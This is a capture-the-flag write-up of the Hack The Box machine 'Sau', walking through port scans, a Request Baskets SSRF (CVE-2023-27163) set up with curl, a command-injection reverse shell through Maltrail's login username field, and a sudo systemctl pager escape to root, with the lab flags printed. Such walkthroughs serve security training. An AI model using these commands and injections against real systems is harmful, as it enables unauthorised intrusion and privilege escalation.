

+++
title = "Sau"
date = "2024-01-24"
description = "This is an easy Linux box."
[extra]
cover = "cover.png"
toc = true
+++

# Information

**Difficulty**: Easy

**OS**: Linux

**Release date**: 2023-07-08

**Created by**: [sau123](https://app.hackthebox.com/users/201596)

# Setup

I'll attack this box from a Kali Linux VM as the `root` user — not a great
practice security-wise, but it's a VM so it's alright. This way I won't have to
prefix some commands with `sudo`, which gets cumbersome in the long run.

I like to maintain consistency in my workflow for every box, so before starting
with the actual pentest, I'll prepare a few things:

1. I'll create a directory that will contain every file related to this box.
   I'll call it `workspace`, and it will be located at the root of my filesystem
   `/`.

1. I'll create a `server` directory in `/workspace`. Then, I'll use
   `httpsimpleserver` to create an HTTP server on port `80` and
   `impacket-smbserver` to create an SMB share named `server`. This will make
   files in this folder available over the Internet, which will be especially
   useful for transferring files to the target machine if need be!

1. I'll place all my tools and binaries into the `/workspace/server` directory.
   This will come in handy once we get a foothold, for privilege escalation and
   for pivoting inside the internal network.

I'll also strive to minimize the use of Metasploit, because it hides the
complexity of some exploits, and prefer a more manual approach when it's not too
much hassle. This way, I'll have a better understanding of the exploits I'm
running, and I'll have more control over what's happening on the machine.

Throughout this write-up, my machine's IP address will be `10.10.14.4`. The
commands ran on my machine will be prefixed with `❯` for clarity, and if I ever
need to transfer files or binaries to the target machine, I'll always place them
in the `/tmp` or `C:\tmp` folder to clean up more easily later on.

Now we should be ready to go!

# Host `10.10.11.224`

## Scanning

### Ports

As usual, let's start by initiating a port scan on Sau using a TCP SYN `nmap`
scan to assess its attack surface.

```sh
❯ nmap -sS "10.10.11.224" -p-
```

```
<SNIP>
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
<SNIP>
```

Let's also check the 500 most common UDP ports.

```sh
❯ nmap -sU "10.10.11.224" --top-ports "500"
```

```
<SNIP>
```

### Fingerprinting

Following the ports scans, let's gather more data about the services associated
with the open TCP ports we found.

```sh
❯ nmap -sS "10.10.11.224" -p "22,80" -sV
```

```
<SNIP>
PORT   STATE    SERVICE VERSION
22/tcp open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp filtered http
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
<SNIP>
```

Alright, so `nmap` managed to determine that Sau is running Linux, and the
version of SSH suggests that it might be Ubuntu.

### Scripts

Let's run `nmap`'s default scripts on the TCP services to see if they can find
additional information.

```sh
❯ nmap -sS "10.10.11.224" -p "22,80" -sC
```

```
<SNIP>
PORT   STATE    SERVICE
22/tcp open     ssh
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp filtered http
<SNIP>
```

## Services enumeration

### Request Baskets

#### Fingerprinting

It turns out that the service running on port `55555` is a website.

Let's use `whatweb` to fingerprint its homepage.

```sh
❯ whatweb -a3 "http://10.10.11.224:55555/" -v
```

```
WhatWeb report for http://10.10.11.224:55555/
Status    : 302 Found
Title     : <None>
IP        : 10.10.11.224
Country   : RESERVED, ZZ

Summary   : RedirectLocation[/web]

Detected Plugins:
[ RedirectLocation ]
        HTTP Server string location. used with http-status 301 and 
        302 

        String       : /web (from location)

HTTP Headers:
        HTTP/1.1 302 Found
        Content-Type: text/html; charset=utf-8
        Location: /web
        Date: Sun, 04 Feb 2024 12:46:51 GMT
        Content-Length: 27
        Connection: close

WhatWeb report for http://10.10.11.224:55555/web
Status    : 200 OK
Title     : Request Baskets
IP        : 10.10.11.224
Country   : RESERVED, ZZ

Summary   : Bootstrap[3.3.7], HTML5, JQuery[3.2.1], PasswordField, Script

Detected Plugins:
[ Bootstrap ]
        Bootstrap is an open source toolkit for developing with 
        HTML, CSS, and JS. 

        Version      : 3.3.7
        Version      : 3.3.7
        Website     : https://getbootstrap.com/

[ HTML5 ]
        HTML version 5, detected by the doctype declaration 


[ JQuery ]
        A fast, concise, JavaScript that simplifies how to traverse 
        HTML documents, handle events, perform animations, and add 
        AJAX. 

        Version      : 3.2.1
        Website     : http://jquery.com/

[ PasswordField ]
        find password fields 


[ Script ]
        This plugin detects instances of script HTML elements and 
        returns the script language/type. 


HTTP Headers:
        HTTP/1.1 200 OK
        Content-Type: text/html; charset=utf-8
        Date: Sun, 04 Feb 2024 12:46:53 GMT
        Connection: close
        Transfer-Encoding: chunked
```

We see that there's a redirection to `/web`.

This reveals that this website is using Bootstrap and JavaScript libraries like
jQuery.

The title of the page is 'Request Baskets'... what's that?

> Request Baskets is a web service to collect arbitrary HTTP requests and
> inspect them via RESTful API or simple web UI.
>
> — [GitHub](https://github.com/darklynx/request-baskets)

#### Exploration

Let's browse to `http://10.10.11.224:55555/`.



It's indeed the Request Baskets application. The footer indicates that it's
using version `1.2.1`. Let's explore its functionalities.

I can create a 'basket' to collect requests.


If I send a request to the specified link, it logs it:


I can edit the basket capacity, edit the basket response, but I don't see
anything I could abuse to get a foothold.

#### Known vulnerabilities

If we search [ExploitDB](https://www.exploit-db.com/) for
`Requests Basket 1.2.1`, we find nothing. However, if we search online, we find
the [CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163).

#### SSRF ([CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163))

[CVE-2023-27163](https://nvd.nist.gov/vuln/detail/CVE-2023-27163) is a
vulnerability in Requests Basket affecting versions up to `1.2.1`. These
versions allow users to create a basket that redirects traffic to a specific URL
with the setting `forward_url`, and that shows the response, creating a SSRF.

Let's create a new basket named `ssrf`, that forwards and shows the requests we
send to local port `80`, which we can't access remotely.

```sh
❯ curl -s -o /dev/null -H "Content-Type: application/json" "http://10.10.11.224:55555/api/baskets/ssrf" -X "POST" -d '{"forward_url": "http://127.0.0.1/","proxy_response": true,"insecure_tls": false,"expand_path": true,"capacity": 200}'
```

### Maltrail

Now let's browse to `http://10.10.11.224:55555/ssrf` to access `http://10.10.11.224/`:


The page didn't load properly, so it's hard to understand what this is about.

However, we notice at the bottom of the page that it's using Maltrail version `0.53`.

> Maltrail is a malicious traffic detection system, utilizing publicly available
> blacklists containing malicious and/or generally suspicious trails, along with
> static trails compiled from various AV reports and custom user defined lists,
> where trail can be anything from domain name (...), URL (...), IP address
> (...) or HTTP User-Agent header value (...).
>
> — [GitHub](https://github.com/stamparm/maltrail)

#### Known vulnerabilities

If we search [ExploitDB](https://www.exploit-db.com/) for `Maltrail 0.53`, we
find nothing. However, if we search online, we find a RCE.

## Foothold (RCE)

Maltrail versions before `0.53` are affected by an unauthenticated RCE. The
vulnerability lies in the `username` parameter of the login page, which lacks
proper sanitization. This allows an attacker to execute OS commands.

### Preparation

The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll choose the 'nc mkfifo' payload from
[RevShells](https://www.revshells.com/) configured to obtain a `/bin/bash`
shell.

I'll save the URL encoded version of it as the `COMMAND` shell variable.

However, we can't directly send the command to the web server on port `80/tcp`,
so we'll use the SSRF we identified [earlier](#ssrf-cve-2023-27163) to do so.

### Exploitation

Let's create a new basket named `login`, that forwards and shows the requests
sent to `http://127.0.0.1/login`, the vulnerable endpoint.

```sh
❯ curl -s -o /dev/null -H "Content-Type: application/json" "http://10.10.11.224:55555/api/baskets/login" -X "POST" -d '{"forward_url": "http://127.0.0.1/login","proxy_response": true,"insecure_tls": false,"expand_path": true,"capacity": 200}'
```

Now let's send our reverse shell payload to our basket:

```sh
❯ curl -s -o /dev/null "http://10.10.11.224:55555/login?username=;%60$COMMAND%60"
```

If we check our listener:

```
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.224] 57206
<SNIP>
puma@sau:/opt/maltrail$
```

It caught the reverse shell!

## Stabilizing the shell

Our home folder doesn't contain a `.ssh` folder, so I'll create one. Then I'll
create a private key and I'll add the corresponding key to `authorized_keys`.
Finally I'll connect over SSH to Sau. This way, I'll have a much more stable
shell.

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `puma`.

### Architecture

What is Sau's architecture?

```sh
puma@sau:~$ uname -m
```

```
x86_64
```

It's using x86_64. Let's keep that in mind to select the appropriate binaries.

### Distribution

Let's see which distribution Sau is using.

```sh
puma@sau:~$ cat "/etc/lsb-release"
```

```
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.6 LTS"
```

Okay, so it's Ubuntu 20.04.

### Kernel

Let's find the kernel version of Sau.

```sh
puma@sau:~$ uname -r
```

```
5.4.0-153-generic
```

It's `5.4.0`.

### Users

Let's enumerate all users.

```sh
puma@sau:~$ grep ".*sh$" "/etc/passwd" | cut -d ":" -f "1" | sort
```

```
puma
root
```

There's `puma` (us) and `root`.

### Groups

Let's enumerate all groups.

```sh
puma@sau:~$ cat "/etc/group" | cut -d ":" -f "1" | sort
```

```
_laurel
adm
admin
audio
backup
bin
cdrom
crontab
daemon
dialout
dip
disk
fax
floppy
fwupd-refresh
games
gnats
input
irc
kmem
kvm
landscape
list
lp
lxd
mail
man
messagebus
netdev
news
nogroup
operator
plugdev
proxy
puma
render
root
sasl
shadow
src
ssh
staff
sudo
sys
syslog
systemd-coredump
systemd-journal
systemd-network
systemd-resolve
systemd-timesync
tape
tcpdump
tss
tty
users
utmp
uucp
uuidd
vboxsf
video
voice
www-data
```

The `lxd` group is interesting to elevate privileges. There's also a group named
`_laurel`, which is unusual.

### NICs

Let's gather the list of connected NICs.

```sh
puma@sau:~$ ifconfig
```

```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.11.224  netmask 255.255.254.0  broadcast 10.10.11.255
        inet6 fe80::250:56ff:feb9:ae3f  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::250:56ff:feb9:ae3f  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:b9:ae:3f  txqueuelen 1000  (Ethernet)
        RX packets 254  bytes 33316 (33.3 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 198  bytes 35367 (35.3 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 39  bytes 3105 (3.1 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 39  bytes 3105 (3.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

There's an Ethernet interface and the loopback interface.

### Hostname

What is Sau's hostname?

```sh
puma@sau:~$ hostname
```

```
sau
```

Yeah I know, very surprising.

### Flags

If we check our home folder, we find the user flag.

```sh
puma@sau:~$ cat "/home/puma/user.txt"
```

```
11eda0aacb8d2de0b5a5e597329c7353
```

### Sudo permissions

Let's see if we can execute anything as another user with `sudo`.

```sh
puma@sau:~$ sudo -l
```

```
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

We do! We can execute the `/usr/bin/systemctl status trail.service` command as
`root`.

## Privilege escalation (Sudo permissions)

If we search [GTFOBins](https://gtfobins.github.io/) for `systemctl`, we find
[an entry](https://gtfobins.github.io/gtfobins/systemctl/)! Luckily, it has a
['Sudo' section](https://gtfobins.github.io/gtfobins/systemctl/#sudo).

In fact, `systemctl` uses `less` as a pager when the output is too long. The
good news (for us at least) is that `less` is exploitable! We should be able to
follow the configuration '(c)' of the GTFOBins for `systemctl` to elevate our
privileges.

### Exploitation

Let's send a bunch of random requests to the Maltrail server to fill the status
page.

Then, let's run the only command we can execute as `root`:

```sh
puma@sau:~$ sudo "/usr/bin/systemctl" "status" "trail.service"
```

```
<SNIP>
lines 1-58
```

The last line indicates that we're in a pager!

Now I'll just copy and paste the given command to abuse our `sudo` permissions:

```sh
!sh
```

```
#
```

Yay!

## Stabilizing the shell

Our home folder contains a `.ssh` directory. There's no existing private key, so
I'll create one and add the corresponding public key to `authorized_keys`, and
then I'll connect over SSH to Sau. This way, I'll have a much more stable shell.

## Getting a lay of the land

If we run `whoami`, we see that we're `root`!

### Flags

As usual, we can find the root flag in our home folder.

```sh
root@sau:~# cat "/root/root.txt"
```

```
d0e621100ee4e4b5674121639dd0c521
```

# Afterwords


That's it for this box! 🎉

I rated the user flag as 'Easy' and the root flag as 'Very easy'. The foothold
required to chain two vulnerabilities to obtain, which is slightly harder than
most easy machines. They were straightforward to exploit though. The privilege
escalation was extremely easy to identify, but a bit harder to exploit, since I
had to send a few requests to Maltrail to obtain a pager on the system.

Thanks for reading!
